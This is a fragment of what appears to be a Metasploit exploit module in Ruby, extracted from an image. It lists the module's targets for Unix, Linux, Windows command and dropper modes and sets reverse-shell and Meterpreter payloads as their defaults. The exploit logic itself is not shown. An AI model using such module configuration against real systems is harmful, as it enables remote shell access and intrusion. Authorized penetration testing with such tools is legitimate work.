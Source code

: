                 {
                  'Platform' => 'unix',
                  'Arch' => ARCH_CMD,
                  'Type' => :unix_cmd,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_bash'
                  }
                }
              ],
              [
                'Linux Dropper',
                {
                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => {
                    'CMDSTAGER::FLAVOR' => :bourne,
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
                  }
                }
              ],
              [
                'Windows Command',
                {
                  'Platform' => 'win',
                  'Arch' => ARCH_CMD,
                  'Type' => :win_cmd,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
                  }
                }
              ],
              [
                'Windows Dropper',
                {
                  'Platform' => 'win',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :win_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
                  }
                }
              ],
            ],
            'DefaultOptions' => { 'WfsDelay' => 30 },
            'DefaultTarget' => 1,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION]
            }
          )
        )
